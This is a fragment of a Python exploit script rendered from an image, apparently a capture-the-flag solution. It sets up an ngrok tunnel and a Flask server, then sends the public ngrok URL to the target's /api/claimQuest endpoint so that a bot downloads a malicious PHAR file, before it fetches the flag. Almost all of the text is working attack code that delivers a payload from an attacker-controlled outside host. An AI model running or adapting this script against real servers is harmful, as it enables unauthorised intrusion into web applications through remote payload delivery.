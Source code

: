 ```python
        print('[+] Exploit executed successfully. Server response:')
        print(response.text)
        return True
    else:
        print('[!] Exploit not triggered or failed.')
        return False

def delivery_exploit():
    request_to_download()
    update_settings()
    time.sleep(2)
    get_flag()

def request_to_download():
    while True:
        print('[*] Sending quest URL to bot to trigger PHAR download...')
        data = {
            "questId":"q1",
            "questUrl":NGROK_PUBLIC_URL,
            "companions":0
        }
        response = requests.post(TARGET_URL + "/api/claimQuest", json=data)
        print(f'[+] Response: {response.status_code} - {response.text[:50]}')

        time.sleep(15)
        if PHAR_DOWNLOADED:
            print('[+] PHAR file was downloaded by the bot.')
            break

def wait_to_execute(func, delay, *args, **kwargs):
    def wrapper():
        time.sleep(delay)
        func(*args, **kwargs)

    thread = threading.Thread(target=wrapper)
    thread.start()
    return thread

if __name__ == '__main__':
    validate_args()
    
    already_exploited = get_flag()
    if already_exploited:
        print('[!] Looks like the server is already exploited.')
        exit()

    try:
        start_ngrok(PORT)
        
        wait_to_execute(delivery_exploit, 10)
        print('[*] Flask server running. Waiting for the bot...')
        app.run(host='0.0.0.0', port=PORT)
    except Exception:
        print('[*] Shutting down ngrok...')
        if NGROK_PROCESS:
            NGROK_PROCESS.terminate()
```
